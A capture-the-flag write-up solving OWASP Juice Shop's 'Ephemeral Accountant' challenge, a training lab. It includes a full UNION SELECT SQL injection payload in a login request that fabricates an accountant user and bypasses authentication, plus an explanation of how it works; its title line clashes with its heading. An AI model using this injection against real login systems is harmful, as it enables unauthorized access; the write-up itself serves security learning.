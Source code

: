 # Ephemeral Accountant Write-Up
> **Source:** https://juice-shop.herokuapp.com/#/score-board?categories=Injection

## Overview

**Title:** Christmas Special

**Category:** Injection

This challenge involves using SQL injection to simulate the login of a non-existent but temporarily created user "acc0unt4nt@juice-sh.op" without actually adding the account to the database permanently.

## Solution

### 1. Analyzing the Login Functionality
> Captured the typical HTTP POST request used for logging in which looks something like this
![Step 1](./Assets/Ephemeral-Accountant/Step-1.png)

### 2. Crafting the SQL Injection Payload
> Since the challenge prevents creating a real account or permanently changing the database, I used a `UNION SELECT` SQL injection. This technique creates a temporary, fake user account that exists only for the moment the login query is running, tricking the system into granting access without saving any new data

### 3. Injecting the Temporary User in the SQL Query
> Crafting the query as a key to construct a subquery within the `UNION SELECT` that mimics a legitimate user record. The query can be seen as below:

```
{
    "email": "Ken' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--"
    "password": "ken"
}
```

![Step 2](./Assets/Ephemeral-Accountant/Step-2.png)

![Step 3](./Assets/Ephemeral-Accountant/Step-3.png)

## Solution Explanation

This SQL injection uses `UNION SELECT` to add a temporary, fake user to the results of the login query. We build a complete user record from scratch, making sure it has all the same columns, like `id`, `email`, `password` as a real user. 

This makes the fake user look legitimate to the application. The `WHERE '1'='1'` part is a simple trick to ensure our fake user is always returned, and the `--` at the end comments out the rest of the original query to prevent errors. As a result, the application finds our 'ephemeral' user in the database results and logs us in, even though the account doesn't actually exist.